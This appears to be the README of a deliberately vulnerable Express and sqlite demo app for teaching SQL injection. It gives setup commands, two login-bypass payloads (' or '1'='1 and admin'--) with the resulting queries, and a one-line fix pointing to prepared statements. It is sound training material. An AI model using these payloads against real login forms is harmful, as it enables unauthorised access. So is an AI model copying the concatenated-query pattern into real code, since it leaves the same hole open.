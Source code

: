 # SQL injection with Express and sqlite

This application is a demonstration prototype just to show how to perform SQLi attack.

## Setting-up

### Deploy on heroku

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/0xdbe-appsec/sqli-express-sqlite)

### Deploy on your host

* Install nodejs

* Install dependencies

```console
$ npm install
```

* Start application

```console
$ node app.js
```

## Tutorial

### Always True SQLi

Open http://localhost:3000/ and log in with:

* username: ' or '1'='1
* password: ' or '1'='1

```
SELECT name FROM user where username = '' or '1'='1' and password = '' or '1'='1'
```

You are now log in as "User", but you can do better!

### SQLi with comment

Open http://localhost:3000/ and log in with:

* username: admin'--
* password: a

```
SELECT name FROM user where username = 'admin' --' and password = 'a'
```

You are now log in as "Admin"

### Fix it

use prepared statement
